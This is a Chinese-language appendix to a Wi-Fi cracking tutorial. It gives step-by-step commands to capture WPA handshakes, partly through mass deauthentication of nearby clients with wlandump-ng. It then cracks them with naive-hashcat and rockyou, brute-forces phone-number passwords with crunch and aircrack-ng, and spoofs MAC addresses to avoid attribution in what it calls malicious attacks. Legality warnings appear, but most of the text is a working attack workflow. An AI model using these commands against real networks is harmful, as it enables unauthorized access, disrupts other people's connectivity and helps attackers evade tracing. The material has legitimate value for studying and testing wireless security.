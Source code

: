# 附录
在本教程初次发布之后，来自互联网各个角落的一些人提出了意见和建议。 在努力保持原始教程简短而优美的基础上，我在这里介绍了有关他们精彩建议的信息，并添加了我自己的一些。 在这里，你可以找到以下信息：

- 在MacOS/OSX上破解WI-FI
- 利用`landump-ng`捕获握手
- 利用`crunch`生成单词列表
- 利用`macchanger`保护你的身份

## 在MacOS/OSX上破解WI-FI

非常感谢[@harshpatel991](https://github.com/harshpatel991)提供本指南。以下说明如何使用内置的MacOS/OSX工具捕获4路握手和naive-hashcat来确定WPA/WPA2无线网络的密码。 此方法已在OSX 10.10和10.12版上进行了测试，但也可能与其他版本一起使用。 像主教程一样，它假设你有一个[无线网卡](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html)支持[监视模式](https://en.wikipedia.org/wiki/Monitor_mode)。我们已经在2012年上半年和2015年中期MacBook Pro上取得了巨大的成功。

### 无线诊断工具

幸运的是，OSX配备了一套无线诊断工具。 要打开它们，请按住键盘上的选项键，然后单击菜单栏中的Wi-Fi图标。 然后点击“打开无线诊断...”

### 决定目标网络信道

打开无线诊断程序，单击窗口>扫描。 找到目标网络，注意其信道和宽度。

### 捕获一个4路握手

1. 打开无限诊断，点击窗口>嗅探器。选择你在上一步中找到的信道和宽度。
2. 现在，你需要等待设备连接到目标网络。如果你正在网络上测试（你应该），请重新连接无线设备以捕获握手。
3. 一旦你认为已经捕获手握手，请点击停止。
4. 根据你的操作系统版本，`.wcap`捕获文件将被保存到桌面或`/var/tmp/`。
5.将捕获文件转换为`.hccapx`，将其上传到https://hashcat.net/cap2hccapx/。 如果你捕获到任何握手，站点将开始下载一个`.hccapx`文件。 如果没有，将不会提示下载。

### 利用`naive-hashcat`破解密码

```bash
# 克隆naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# 在MacOS/OSX上构建源代码
./build-hashcat-osx.sh

# 下载134MB rockyou字典文件
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

最后，运行`naive-hashcat.sh`。将`handshake.hccapx`的名称改成你从[hashcat.net](https://hashcat.net/cap2hccapx/)下载的文件名称。`cracked.pot`是输出文件名称。

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

再次感谢[@harshpatel991](https://github.com/harshpatel991)，以及感谢[phillips321](http://www.phillips321.co.uk/)他的在OSX上构建hashcat的[帖子](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/)。

## 利用`wlandump-ng`来捕获握手

[@enilfodne](https://github.com/enilfodne)已经[告诉我](https://github.com/brannondorsey/wifi-cracking/issues/15)hashcat社区对于捕获WPA 4路握手有了更好的工具，叫做`wlandump-ng`。这个工具属于与hashcat相关的工具集[hcxtools](https://github.com/ZerBea/hcxtools)系列之中，由[ZerBea](https://github.com/ZerBea)开发，名声已经超过了`airdump-ng`。`wlandump-ng`允许你一次性从每个附近的网络上全面捕获握手信息，跳过Wi-Fi信道，以增加收集。


```bash
# 克隆hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# 构建并且安装
# 你将可能需要apt来安装需要的依赖
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# 覆盖所有失去从附近接入点失去连接的客户端并且监听重新连接
# 将wlan0替换成你的无线设备名称
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# 一旦你获得了捕获的文件，你可以利用以下命令将其转换成hashcat捕获格式
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng`命令行参数（使用`h`标志来获得完整列表）：

- `-c 1`：从通道1开始的2.4Ghz范围（将转到13）
- `-t 60'：每个通道停留60s（实验值较低，默认值为5）
- `-d 100`：发送deauth每100个信标帧
- `-D 10`：每隔10个信标帧发送解析数据包
- “-m 512”：内部缓冲区大小，对于低资源机器使用512
- `-b`：激活信号到最后10个探测请求
- `-r`：如果循环在通道1上，则重置deauthentication / detachosciation计数器
- `-s 20`：显示20条状态行

**警告：**在大多数地方使用这个是不合法的。更多信息请参考[这]((https://github.com/ZerBea/hcxtools#warning)。

`wlandump-ng`也提供了在被动模式下运行的选项，而不会发送任何解除认证/解除关联帧。 如果你对中断你周围的人的网络活动（你应该是）敏感，则建议你这样做。代价是你将获得的握手少得多，这种方法使得捕获不可见。

```bash
# 在被动模式下使用默认设置运行
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## 使用`crunch`生成单词列表

`crunch`是使用给定字符串或模式的组合生成单词列表的工具。 我们可以使用crunch来即时生成密码列表，并将其管理为`aircrack-ng`，而不会将单词列表保存到磁盘。


```bash
# 安装crunch
sudo apt-get install crunch
```

要想知道如何运行crunch，可以从命令行运行（一旦开始发送密码，就可以按`ctrl-c`）：

```bash
# 语法8 8是生成密码的最小长度和最大长度
# 01234567890是组合/排列构成密码的一组字符
crunch 8 8 0123456789
```

```
Crunch现在将生成以下数据量：900000000字节
858 MB
0 GB
0 TB
0 PB
Crunch现在将生成以下行数：100000000
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

我们可以将`crunch`的输出作为输入输出到`aircrack-ng`，使用它生成的密码作为我们的单词列表。 这里我们使用`crunch`特殊规则字符`%`来表示数字。 此命令尝试破解10位电话号码的WPA密码（使用crunch即时生成的102GB的号码）：

```bash
# 我们也可以使用-t "@^%,"  使用模式'@' 替换小写 ',' －替换大写
# '%' －替换数字以及'^' －替换特殊字符
# *************** 不要忘记最后的'-'
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

感谢[@hiteshnayak305](https://github.com/hiteshnayak305)介绍`crunch`并将此次更新作为[PR](https://github.com/brannondorsey/wifi-cracking/pull/17)。

## 利用`macchanger`魄户你的身份

每当您使用Wi-Fi进行任何远程恶意攻击时，最好是伪造你的Wi-Fi设备的MAC地址，以便记录的任何网络流量都不能与设备制造商分配的串行连接。

这是利用`macchanger`的一个小尝试：

```bash
# 下载MAC changer
sudo apt-get install macchanger

# 关闭设备
sudo ifconfig wlan0 down

# 改变mac
# -A 为有效的供应商分配一个随机的MAC w/a
# -r 让它真正随机
# -p 将其恢复到原始的硬件MAC
sudo macchanger -A wlan0

# 启动设备
sudo ifconfig wlan0 up
```

如果你有多张无线网卡，那么改变所有无线网卡的MAC是个好主意。 或者更好的是，当你尝试捕获握手时，将未使用的无线接口关闭，尽可能少地留下痕迹。 请注意，欺骗更改在重新启动时不会持续。
